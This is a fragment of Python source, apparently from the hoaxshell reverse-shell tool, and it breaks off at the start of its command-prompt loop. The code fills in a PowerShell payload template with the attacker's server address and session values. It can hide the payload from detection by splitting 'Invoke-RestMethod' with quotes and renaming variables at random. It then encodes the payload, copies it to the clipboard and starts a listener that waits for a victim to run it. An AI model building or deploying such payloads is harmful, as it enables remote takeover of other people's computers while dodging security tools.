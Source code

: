 			payload = source.read().strip()
			source.close()
			
			payload = payload.replace('*SERVERIP*', (t_server if (args.localtunnel or args.ngrok) else server_ip)).replace('*SESSIONID*', Hoaxshell.SESSIONID).replace('*FREQ*', str(
				frequency)).replace('*VERIFY*', Hoaxshell.verify).replace('*GETCMD*', Hoaxshell.get_cmd).replace('*POSTRES*', Hoaxshell.post_res).replace('*HOAXID*', Hoaxshell.header_id)
			
			if args.invoke_restmethod:
				payload = payload.replace("Invoke-WebRequest", "I'n'v'o'k'e'-Re's'tMe't'h''od").replace(".Content", "")		

			if args.exec_outfile:
				payload = payload.replace("*OUTFILE*", args.exec_outfile)
			
			if args.constraint_mode:
				payload = payload.replace("([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')", "($e+$r)")

			if args.obfuscate:
				
				for var in ['$s', '$i', '$p', '$v']:
					
					_max = randint(1,5)
					obf = str(uuid.uuid4())[0:_max]
					
					payload = payload.replace(var, f'${obf}')
			
			if not args.raw_payload:
				payload = encodePayload(payload)

			print(f'{PLOAD}{payload}{END}')
			
			# Copy payload to clipboard
			try:
				copy2cb(payload)
				print(f'{ORANGE}Copied to clipboard!{END}')
			except:
				pass

			print(f'[{INFO}] Tunneling [{BOLD}{ORANGE}ON{END}]') if tunneling else chill()
			
			if tunneling:
				print(f'[{INFO}] Server Address: {BOLD}{BLUE}{t_server}{END}')

			print(f'[{INFO}] Type "help" to get a list of the available prompt commands.')
			print(f'[{INFO}] Https Server started on port {server_port}.') if ssl_support else print(f'[{INFO}] Http Server started on port {server_port}.')
			print(f'[{IMPORTANT}] Awaiting payload execution to initiate shell session...')

		else:
			print(f'\r[{IMPORTANT}] Attempting to restore session. Listening for hoaxshell traffic...')


		# Command prompt
		while True:
